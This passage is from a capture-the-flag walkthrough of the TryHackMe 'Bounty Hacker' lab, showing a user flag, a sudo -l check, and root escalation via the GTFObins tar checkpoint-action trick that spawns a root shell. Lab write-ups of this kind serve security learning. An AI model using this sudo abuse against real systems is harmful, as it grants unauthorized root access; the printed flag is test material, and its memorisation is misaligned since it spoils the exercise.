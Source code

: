 ```
83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}

```

## HTTP (80)

<img src="../../Flameshots/23662abdc395d0c0c864d28502cabaae.png" alt="23662abdc395d0c0c864d28502cabaae.png" width="597" height="296" class="jop-noMdConv">

# Privilege Escalation

We check for sudo commands for the [[Privilege Escalation]]:

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```

Probably our initial attack vector.

## GTFObins

We search in [[GTFObins]] for tar :

<img src="../../Flameshots/5153273165b1c8ae2f19b9e68f7feaa1.png" alt="5153273165b1c8ae2f19b9e68f7feaa1.png" width="573" height="104">

Now we go in bin cause tar it's there and paste the command ;  
<br/>

```
lin@bountyhacker:~/Desktop$ cd bin
-bash: cd: bin: No such file or directory
lin@bountyhacker:~/Desktop$ cd /bin/
lin@bountyhacker:/bin$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
[sudo] password for lin: 
tar: Removing leading `/' from member names

# whoami
root
# cd/root/
/bin/sh: 3: cd/root/: not found
# cd ..
# ls
bin    dev   initrd.img      lib64       mnt   root  snap  tmp  vmlinuz
boot   etc   initrd.img.old  lost+found  opt   run   srv   usr  vmlinuz.old
cdrom  home  lib             media       proc  sbin  sys   var
# cd root
# ls
root.txt
```